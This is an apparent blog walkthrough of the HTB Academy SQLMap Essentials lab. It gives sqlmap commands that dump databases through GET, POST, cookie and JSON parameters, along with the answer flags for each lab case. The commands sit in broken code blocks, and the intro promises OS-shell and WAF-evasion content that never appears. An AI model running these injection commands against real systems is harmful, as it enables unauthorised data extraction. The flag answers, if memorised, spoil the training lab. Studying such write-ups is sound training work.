Welcome to **Part 18** of our comprehensive, production-grade masterclass covering the **Hack The Box (HTB) Academy Certified Penetration Testing Specialist (CPTS)** curriculum. Rather than providing superficial slide summaries, this series deconstructs offensive tradecraft from foundational network discovery and vulnerability verification to complex lateral movement, active directory exploitation, and post-exploitation tradecraft — complete with terminal command flows, verified lab flags, and defensive engineering countermeasures.

In this installment, we conduct an exhaustive technical deep-dive into **SQLMap Essentials** (Tier I • Easy • Offensive). We break down the underlying mechanics of automated SQL injection testing with SQLMap, tamper script evasion, database fingerprinting, schema dumping, and OS shell spawning, dissect hands-on offensive vectors, analyze realistic defensive telemetry, and walk through every exercise step-by-step with 100% verified solutions.

<div class="ff-series-nav"><a href="/posts/htb-academy-part-17-sql-injection-fundamentals/" class="ff-nav-btn text-start">
    <div class="ff-nav-arrow"><i class="fas fa-arrow-left"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Previous Part</span>
      <span class="ff-nav-title">Part 17: SQL Injection Fundamentals & Exploitation</span>
    </div>
  </a>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-cube"></i> HTB Academy Series</span>
    <span class="ff-center-part">Part 18 of 41</span>
  </div>
  <a href="/posts/htb-academy-part-19-password-attacks/" class="ff-nav-btn text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Next Part</span>
      <span class="ff-nav-title">Part 19: Password Attacks & Credential Harvesting</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-arrow-right"></i></div>
  </a>
</div>

## Module Specifications & Target Architecture

| Attribute | Specification |
| :--- | :--- |
| **Module Name** | `SQLMap Essentials` |
| **Official HTB Academy Track** | [https://academy.hackthebox.com/module/58](https://academy.hackthebox.com/module/58) |
| **Curriculum Tier & Difficulty** | `Tier I` • `Easy` |
| **Certification Pathway** | `HTB Certified Penetration Testing Specialist (CPTS)` (Part 18 of 41) |
| **Author & Technical Attribution** | `Abdulrahman M. Fathi (0x3bdo)` |
| **Lab Flag Verification** | `100% Fully Solved & Validated` |

## Key Technical Takeaways

* **Target Specification**: Feeds target URLs, HTTP request files (`-r`), and parameters directly into SQLMap for comprehensive testing.
* **Technique Tuning**: Customizes detection techniques: Boolean-based (`B`), Error-based (`E`), UNION query (`U`), Stacked queries (`S`), and Time-based (`T`).
* **Tamper Script Evasion**: Evades Web Application Firewalls (WAF) using built-in tamper scripts (`space2comment`, `charencode`, `randomcase`).
* **Automated Data Extraction**: Dumps specific databases, tables, and columns with high efficiency using multi-threading (`--threads`).
* **Operating System Takeover**: Spawns interactive system shells via `--os-shell` and `--os-cmd` when database administrative rights are present.

## Executive Summary & Assessment Scope

SQLMap is the industry-standard automated penetration testing tool for detecting and exploiting SQL injection flaws. While manual testing is crucial for understanding, SQLMap provides the speed and efficiency required to thoroughly audit complex applications.

In this module, we master SQLMap operations. We analyze request files captured from interception proxies, tune injection boundaries, apply tamper scripts to bypass defensive filters, dump sensitive database schemas, and escalate to operating system shells, completing all lab objectives.

---

## Comprehensive Lab Walkthrough & Flag Solutions


### SQLMap Essentials

> **Lab Question (Page 1)**: What's the fastest SQLi type?
>
> **Flag / Answer**: `UNION query-based`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

'Error-based SQLi is considered as faster than all other types, except UNION
query-based, because it can retrieve a limited amount (e.g., 200 bytes) of data called
"chunks" through each request.'

Building Attacks
Running SQLMap on an HTTP Request:
Question: What's the contents of table flag2? (Case #2)
Answer: HTB{700_much_c0n6r475_0n_p057_r3qu357}
Method: first lets go to the browser to the website itself:
http://<target-IP>:<target-port>/


### We select 'Case #2'

#### Technical Methodology & Exploit Execution:

```bash
sqlmap -u "http://<target-IP>:<target-port>/case2.php" --
```
data='id=1' --method POST --batch --dump

now, there will be A LOT of putput, only the relevant parts will be screenshot-
ed:


*_Figure 2.1 — Lab execution and output verification (Page 2)_*


*_Figure 2.2 — Lab execution and output verification (Page 2)_*


*
*

We mark 'Y' here..
*
*

Parameter 'id' is injectable to various methods like this..
*
*

Parameter 'id' is vulnerable.. we can stop testing.. and get to the results…
*
*


*_Figure 3.1 — Lab execution and output verification (Page 3)_*


*_Figure 3.2 — Lab execution and output verification (Page 3)_*


*_Figure 3.3 — Lab execution and output verification (Page 3)_*


*_Figure 3.4 — Lab execution and output verification (Page 3)_*


### When selecting 'click here' – we get to 'id=1' value

> **Lab Question (Page 4)**: What's the contents of table flag3? (Case #3)
>
> **Flag / Answer**: `HTB{c00k13_m0n573r_15_7h1nk1n6_0f_6r475}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

lets select 'Case #3' in the main dashboard:

When selecting 'click here' – we get to 'id=1' value:

Anyway they tell us to investigate the url, with the cookie 'id=1', so lets do:
```bash
sqlmap -u "http://<target-IP>:<target-port>/case3.php" --
```
cookie="id=1" --dbs --dump --batch --level=5 --risk=3


*_Figure 4.1 — Lab execution and output verification (Page 4)_*


*_Figure 4.2 — Lab execution and output verification (Page 4)_*


*_Figure 4.3 — Lab execution and output verification (Page 4)_*


### here.. however at the end of which….

we will get familiar output format to the case #2, which will not be repeated
here.. however at the end of which….:

Here are explanation on the flags:


*_Figure 5.1 — Lab execution and output verification (Page 5)_*


*_Figure 5.2 — Lab execution and output verification (Page 5)_*


### and same as previous injections

> **Lab Question (Page 6)**: What's the contents of table flag4? (Case #4)
>
> **Flag / Answer**: `HTB{j450n_v00rh335_53nd5_6r475}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

lets enter the page of 'case4' (the method for that already covered):


In here we are dealing with json data: '{"id": 1}'. We will run the command:
```bash
sqlmap -u "http://<target-ip>:<target-port>/case4.php" --
```
data='{"id": 1}' --dbs --dump --batch --level=5 --risk=3 --
header="Content-Type: application/json"
and same as previous injections:


*_Figure 6.1 — Lab execution and output verification (Page 6)_*


*_Figure 6.2 — Lab execution and output verification (Page 6)_*


### Attack Tuning

> **Lab Question (Page 7)**: What's the contents of table flag5? (Case #5)
>
> **Flag / Answer**: `HTB{700_much_r15k_bu7_w0r7h_17}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

```bash
sqlmap -u "http://<target-ip>:<target-port>/case5.php?id=1"
```
--dbs --dump --batch --level=5 --risk=3 -T flag5 --no-cast


*
*


*_Figure 7.1 — Lab execution and output verification (Page 7)_*


*_Figure 7.2 — Lab execution and output verification (Page 7)_*


*_Figure 7.3 — Lab execution and output verification (Page 7)_*


> **Lab Question (Page 8)**: What's the contents of table flag6? (Case #6)
>
> **Flag / Answer**: `HTB{v1nc3_mcm4h0n_15_4570n15h3d}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

```bash
sqlmap -u "http://<target-IP>:<target-
```
port>/case6.php?col=id" --dbs --dump --batch --level=5 --
risk=3 -T flag6 --no-cast


*_Figure 8.1 — Lab execution and output verification (Page 8)_*


*_Figure 8.2 — Lab execution and output verification (Page 8)_*


*_Figure 8.3 — Lab execution and output verification (Page 8)_*


> **Lab Question (Page 9)**: What's the contents of table flag7? (Case #7)
>
> **Flag / Answer**: `HTB{un173_7h3_un173d}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

```bash
sqlmap -u "http://<target-IP>:<target-port>/case7.php?id=1"
```
--union-cols=5 -D testdb -T flag7 –no-cast --dump --batch --
level=5 --risk=3
*


*_Figure 9.1 — Lab execution and output verification (Page 9)_*


*_Figure 9.2 — Lab execution and output verification (Page 9)_*


*_Figure 9.3 — Lab execution and output verification (Page 9)_*


*
*


*_Figure 10.1 — Lab execution and output verification (Page 10)_*


### Database Enumeration

> **Lab Question (Page 11)**: What's the contents of table flag1 in the testdb database? (Case #1)
>
> **Flag / Answer**: `HTB{c0n6r475_y0u_kn0w_h0w_70_run_b451c_5qlm4p_5c4n}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

```bash
sqlmap -u "http://<target-IP>:<target-port>/case1.php?id=1"
```
-D testdb -T flag1 --no-cast --dump --batch --level=5 --
risk=3


*
*


*_Figure 11.1 — Lab execution and output verification (Page 11)_*


*_Figure 11.2 — Lab execution and output verification (Page 11)_*


*
*

